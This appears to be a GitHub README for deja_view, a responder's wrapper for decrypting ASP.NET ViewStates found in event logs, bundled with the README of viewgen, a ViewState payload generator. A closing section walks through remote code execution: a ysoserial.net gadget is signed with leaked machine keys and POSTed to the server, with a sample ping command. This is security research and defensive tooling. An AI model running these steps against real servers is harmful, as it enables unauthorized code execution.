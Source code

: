 # deja_view
**Author:** Alyssa Rahman @ramen0x3f

**Last Updated:** 2022-03-30

## Description
Viewgen is a fantastic tool that lets you generate, decrypt, and decode ViewState payloads. 

I've created deja_view as a simple wrapper for viewgen, so analysts/responders can quickly decrypt and analyze ViewStates in bulk. 

### Inputs
deja_view requires at least one ViewState and valid machineKey values. There are a few options for how to provide these:

**ViewStates**
* Individually - you need the Persisted ViewState blob from event logs. This is going to be a Base64 encoded string. 
* Bulk - create a file with event log entries/lines that begin with “1316 | Information | Event code: 4009-++-Viewstate verification failed.” deja_view will auto-extract relevant details including the ViewState from each line that matches this pattern. 

**machineKey (uses viewgen functions)**
* Manual definition of keys, algorithms, and modifier
** Modifier is the ViewStateGenerator value. Try browsing the website and viewing source if you need to find this.
* Automated extraction from a web.config file

### Outputs
**Basic Stats**
* Number of ViewStates, successfully decrypted ViewStates, and extracted PEs

**TSV report**
* Decrypted ViewState
* MD5 hash of any extracted PEs from the ViewStates
* Additional metadata like client IP, user-agent, etc. if extracted from event log

**Extracted PEs**
* Filename is the MD5 hash listed in the TSV report

## Usage

### Setup
Requirements/install same as viewgen: 
```git clone https://github.com/ramen0x3f/viewgen.git
cd viewgen
pip3 install -r requirements.txt
```

### Decrypting ViewStates
Decrypting a single ViewState:
`python3 deja_view.py --modifier <viewstategenerator value> --vkey <validation key> --dkey <decryption key> --valg <validation algo> --dalg <decryption algo> -o <output filename for tsv results> --payload <encrypted viewstate>`

Decrypting all ViewStates in list of events:
`python3 deja_view.py --modifier <viewstategenerator value> --vkey <validation key> --dkey <decryption key> --valg <validation algo> --dalg <decryption algo> -o <output filename for tsv results> --logs <log file name>`
 
### Understanding Results
1. Analyze any extracted PEs
2. Review decrypted ViewStates to identify gadget chains/methods used for execution. 
** take the decrypted ViewState from the TSV (should start with /wE ) and Base64 decode it. 
** Ysoserial .NET includes several known abusable gadgets

# viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

**Requirements**: Python 3

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER] [-c COMMAND]
               [--decode] [--guess] [--check] [--vkey VKEY] [--valg VALG]
               [--dkey DKEY] [--dalg DALG] [-e]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  -c COMMAND, --command COMMAND
                        Command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -e, --encrypted       ViewState is encrypted
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a POST request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints

---------------

### ⚠ Legal Disclaimer ⚠

This project is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this tool.
